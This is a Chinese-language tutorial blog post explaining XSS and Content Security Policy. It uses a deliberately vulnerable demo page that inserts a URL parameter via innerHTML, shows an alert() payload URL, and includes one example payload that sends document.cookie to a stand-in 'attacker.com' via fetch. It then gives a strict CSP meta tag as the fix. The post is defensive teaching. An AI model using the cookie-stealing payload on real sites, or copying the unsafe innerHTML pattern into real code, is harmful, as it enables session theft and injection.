 ```yaml
---
title: CSP标头是什么？为什么有人能神不知鬼不觉地盗走你的信息？
published: 2025-07-31
description: 'CSP是内容安全策略，它可以防止攻击者向您的网站恶意注入脚本以盗走用户信息'
image: '../assets/images/e245d917-2255-4d2d-85fb-aa7538a18022.webp'
tags: [XSS攻击, CSP]
category: '记录'
draft: false 
lang: ''
---
```


# 举个例子吧！

这是一个无CSP标头的网站： [点我](https://none-csp-demo.pages.dev/nocsp?name=%3Cimg%20src=x%20onerror=%22alert(%27XSS%E6%94%BB%E5%87%BB%E6%88%90%E5%8A%9F%27)%22%3E)

不出意外，你的浏览器会弹出一个提示

![](../assets/images/b279f283-b5d2-4dbd-955e-5b3bba6ff656.webp)

# 这是如何做到的？

这个项目开源在 [afoim/none_csp_demo](https://github.com/afoim/none_csp_demo)

HTML内容为

```html
<!DOCTYPE html>
<html>
<head>
  <meta charset="UTF-8">
  <title>欢迎页面</title>
</head>
<body>
  <h1>欢迎</h1>
  <p>你好，<span id="name"></span>！</p>

  <script>
    // 从 URL 参数读取用户名并显示
    const params = new URLSearchParams(location.search);
    const name = params.get("name");
    document.getElementById("name").innerHTML = name;
  </script>
</body>
</html>
```

这个网站非常简单，网页通过查询符 `?name=xxx` 来动态显示用户名

比如你输入 https://none-csp-demo.pages.dev/nocsp?name=AcoFork 网页就会显示

![](../assets/images/366d0934-9c3a-4196-a7ae-1c230c916daf.webp)

而根据源码 网页是通过 `innerHTML` 直接进行文本插入的

这种方式没有任何的安全审查，会将传入的内容直接拼接到HTML中

那么...如果我们给网站这样一个 `name` 呢？

尝试输入 

https://none-csp-demo.pages.dev/nocsp?name=%3Cimg%20src=x%20onerror=%22alert(%27XSS%E6%94%BB%E5%87%BB%E6%88%90%E5%8A%9F%27)%22%3E

你会发现网站并没有打印出任何用户名，而且浏览器还弹出了一个奇怪的窗口

![](../assets/images/e86cfeed-a9d4-402b-aed0-fc3624f3e925.webp)

我们F12查看当前网页的源代码

![](../assets/images/ad38bc52-e689-4923-b79c-894dc9ab4136.webp)

发现在 `<span id="name"></span>` 中

被插入了一条 `<img src="x" onerror="alert('XSS攻击成功')">` ！

也就是说，网页把我们传入的 `name` 并没有解析为纯文本

而是暴力的直接插入了HTML

导致浏览器并没有渲染出来  `你好，<img src="x" onerror="alert('XSS攻击成功')"> ！` 

而是直接将 `<img src="x" onerror="alert('XSS攻击成功')">` 作为HTML去执行了！

由于 `src=x` 必定无法获取，又因为设置了 `onerror` 这个回退源

导致浏览器直接执行了 `alert('XSS攻击成功')` 这个脚本！

# 有什么危害？

举一反三，既然我们能让浏览器弹出一个提示框

那也就能做到其他事情

攻击者完全可以伪造一条URL，然后发给你，比如**获取你的浏览器Cookie然后通过Fetch发送到指定的服务器**！！！
`https://victim-site.com/page?name=<img src=x onerror="fetch('https://attacker.com/log?cookie='+document.cookie)">`

# 如何设置CSP以避免这类攻击？

尝试访问这个URL，该URL设置了严格的CSP策略

https://none-csp-demo.pages.dev/csp?name=%3Cimg%20src=x%20onerror=%22alert(%27XSS%E6%94%BB%E5%87%BB%E6%88%90%E5%8A%9F%27)%22%3E

你会发现并未弹出提示框，并且F12控制台出现报错

![](../assets/images/2febeecf-6f54-4c6a-b775-ef2ac8598f37.webp)

**以下是GPT给出的翻译和解释**

**翻译：**

> 拒绝执行内联脚本，因为它违反了以下 CSP 指令：`script-src 'self'`。要允许执行内联脚本，必须使用 `'unsafe-inline'` 关键字、指定哈希值（例如 `'sha256-raHeKmhSLYgI2dPMTS+XHraijHkbV3RTs8np6RhiKqQ='`），或使用随机数（例如 `'nonce-...'`）。

**解释：**  
你的 CSP 策略里规定只能加载本域（`'self'`）的脚本，但是你在 HTML 页面中写了 `<script>...</script>` 这样的**内联脚本**（inline script）。这被当前 CSP 限制了，无法执行。

这样我们就成功避免了XSS攻击

在HTML head中添加以下内容即可

```html
  <!-- 安全的 CSP 策略 -->
  <meta http-equiv="Content-Security-Policy" content="
    default-src 'self';
    script-src 'self';
    object-src 'none';
    frame-ancestors 'none';
    base-uri 'self';
  ">
```

# 如何保证我的数据安全？

1. 如果你正在运营站点，**请确保各个站点设置了严格的CSP策略**。这样，即使有攻击者想要XSS注入，也会被CSP策略拦截

2. **不要随意点击来历不明的链接或扫描来历不明的二维码**。对于短链接、混淆后的链接，首先先解析出最终链接，评估风险后再访问。或者使用无痕模式访问。也许目标网站并没有严格的CSP策略，这可能会导致你的个人数据泄露
